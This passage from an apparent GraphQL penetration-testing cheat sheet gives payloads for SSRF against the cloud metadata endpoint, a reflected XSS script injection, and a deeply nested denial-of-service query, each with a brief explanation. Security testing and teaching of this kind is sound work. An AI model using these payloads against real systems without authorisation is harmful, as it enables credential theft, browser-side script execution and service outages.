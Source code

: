 ### 10. Server Side Request Forgery (SSRF)

**Explanation:**
If the API lets you fetch a URL, try hitting internal services like `http://localhost:3000` or cloud metadata.

**Payload:**

```json
{
  "query": "query { fetchUrl(url: \"http://169.254.169.254/latest/meta-data/\") }"
}
```

---

### 11. Cross-Site Scripting (XSS)

**Explanation:**
If the app reflects user input back to the frontend without sanitizing it, you can inject JavaScript.

**Payload:**

```json
{
  "query": "query { searchUser(name: \"<script>alert('XSS')</script>\") { id } }"
}
```

---

### 12. Denial of Service (DoS) – Deep Nesting

**Explanation:**
GraphQL lets you nest fields a lot. Abuse that to make a super deep query and slow down or crash the server.

**Payload:**

```graphql
query {
  a {
    b {
      c {
        d {
          e {
            f {
              g {
                h {
                  i {
                    j {
                      id
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```

---